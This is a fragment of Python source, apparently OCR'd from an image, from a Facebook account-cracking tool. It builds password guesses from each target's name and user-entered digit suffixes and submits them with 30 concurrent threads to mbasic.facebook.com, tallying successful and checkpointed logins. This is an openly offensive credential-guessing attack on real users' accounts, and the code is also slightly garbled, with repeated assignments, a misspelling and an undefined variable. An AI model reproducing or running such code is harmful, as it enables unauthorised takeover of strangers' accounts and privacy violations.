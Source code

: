                     try:

                        uid, name = zsb.split('|')

                        xz = name.split(' ')

                        if len(xz) == 3 or len(xz) == 4 or len(xz) == 5 or len(xz) == 6:

                            pwx = [name, xz[0]+xz[1]]
                            
                            pwx = [name, xz[0] + 'last', xz[0] + 'Frist', xz[0] + 'Last']
                            
                            pwx = [name, xz[0]+xz[1]]

                        else:

                            pwx = [Last, xz[0] + 'Last1', xz[0] + 'first', xz[0] + 'last1']

                        ssbworld.submit(self.__metode__, uid, pwx, "mbasic.facebook.com")

                    except:

                        pass

            hasil(ok,cp)

        elif chi in ('2', '02'):

            os.system("clear")

            print(logo)

            print("")

            print("\033[1;37m\r   Enter Last Name Digits\033[1;37m\n")

            print ("\033[1;37m\r   Exmple : 123 + 12345 + 1234 + 1122\033[1;37m\n")

            p1 = input('   Name + 1 : ')

            p2 = input('   Name + 2 : ')

            p3 = input('   Name + 3 : ')

            p4 = input('   Name + 4 : ')

            os.system("clear")

            print(logo)

            print("\033[1;32m      Dont Forget Allah😊 \033[1;37m")

            print("༄TANJID᭄•───────────────────────────────────────•༄AHMED᭄")

            with sarfrazssb(max_workers=30) as ssbworld:

                for zsb in self.id: # Yo Ndak Tau Kok Tanya Saia

                    try:

                        uid, name = zsb.split('|')

                        xz = name.split(' ')

                        if len(xz) == 3 or len(xz) == 4 or len(xz) == 5 or len(xz) == 6:
